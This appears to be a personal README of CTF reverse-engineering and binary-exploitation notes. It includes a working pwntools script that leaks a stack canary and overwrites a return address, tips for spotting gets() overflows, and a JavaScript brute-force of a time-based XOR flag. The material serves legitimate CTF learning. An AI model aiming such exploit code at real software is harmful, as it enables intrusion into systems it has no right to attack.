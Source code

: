 # REV-PWNS
my personal guide for rev-pwns

------------------------------------------------------------------------------------------------------------------------
when you have a challenge with NO PIE and a canary
1. checksum --file=/home/kali/<thefile>
2. here its the solution.py :

from pwn import *
context.log_level = "DEBUG"
context.arch = "amd64"
context.os = "linux"

remote_ip = 'localhost'
remote_port = 1337
buffer_len = 8 * 11
addr_your_goal = 0x401339 # it depends.

r = remote(remote_ip, remote_port)
r.recv() # Receive question for name;
r.sendline(b"A" * buffer_len)
r.recv() # Receive the first response;
x = r.recv() # Receive canary;

canary = x[x.rfind(b'A')+1:x.rfind(b'A')+9] # Canary leak

exploit = b"A" * buffer_len + b"\x00" + canary[1:] + 8 * b"\x00" + p64(addr_your_goal) # Overwrite buffer followed by canary, rbp and return address which is not position independent;
r.send(exploit) # Sending payload;
x = r.recv() # Receive flag from your_goal function;
flag = x[:x.find(b'}')]
print(flag)



------------------------------------------------------------------------------------------------------------------------
when you have a "file" type and an IP:port -->
1. nc IP port (so you can try the program)
2. checksum --file=/home/kali/<thefile>  (to see if there is a canary)
3. now load the file to ghidra  (or objdump -t <filename>) 
4. There we go to the main functio non "Listing" window and go to the main and then open a "window" --> "Decompile: ...."
   so we can check the main function. Then go to other functions too.
!!!------- if you find "gets()" for input, without boundary checking, that means that you can buffer overflow it (EIP (Extended Instruction Pointer)---------!!!
5. go check the input, try 100 A's and then 200 A's...and you may find if there is a baffer overflow.
                            simple input tries-->
6. python3 -c "print(b'A'*200)" | ./<filename>
7. 

-------------------------------------------------------------------------------------------------------------------------
when you have a "file" without an IP:port-->
1. checksum
2. strings
3. ghidra or ida free  (cd opt/inda-free/ and then ./ida)
4. hecdump <filename>.enc


-----------------------------------------------------------------------------------------------------------------------
if you get a file with ARM code (Advanced RISC Machine, used for mobiles,servers,Raspberry Pi etc)
1. nc ip port
2. you need a code to solve the inputs of it:
   https://github.com/itwaseasy/crackmes-solutions/blob/master/hackTheBox/arms_race/emulator.py
   This script is a remote challenge solver using ARM code emulation. It connects to a remote service, receives ARM machine    
   code, emulates its execution, and returns the result (the value in register R0)

--------------------------------------------------------------------------------------------------------------------------
you just can a flag/text with scrambled chars. It encrypts them based on the time/date and month at that moment. So:

import MD5 from 'crypto-js/md5.js';
let daysBack = 0;

#use this flag from where you got it
const flag = [0x45, 0x00, 0x50, 0x39, 0x08, 0x6f, 0x4d, 0x5b, 0x58, 0x06, 0x66, 0x40, 0x58, 0x4c, 0x6d,0x5d, 0x16, 0x6e, 0x4f, 0x00, 0x43, 0x6b, 0x47, 0x0a,0x44, 0x5a, 0x5b, 0x5f, 0x51, 0x66, 0x50, 0x57]
const ctfDay = new Date("2025-04-11");

#use this to clear the unwanted chars
const canBeFlag = (flag) => [...flag].every(x => x.charCodeAt(0) >= 48 && x.charCodeAt(0) <= 125)


#try for the previus 100 days
while (daysBack < 100) {
    for(let minute = 0; minute < 24 * 60; minute++) {
        const dateTime = new Date(ctfDay.getTime() - daysBack * 24 * 60 * 60 * 1000 + minute * 60 * 1000);
        const date = `${(dateTime.getMonth() + 1).toString().padStart(2, '0')}/${dateTime.getDate().toString().padStart(2, '0')}/${dateTime.getFullYear()}`
        const time = `${dateTime.getHours().toString().padStart(2, '0')}:${dateTime.getMinutes().toString().padStart(2, '0')}`
        const base = "Europe/Warsaw-" + date + "-" + time;
         # i used europe/warsaw cayse that was the place the flag used for first time
   
        var hash = MD5(base).toString();
        const result = flag.map((x, i) => String.fromCharCode(x ^ hash.charCodeAt(i))).join('')
        if(canBeFlag(result))
            console.log(result);
    }

    daysBack++;
}
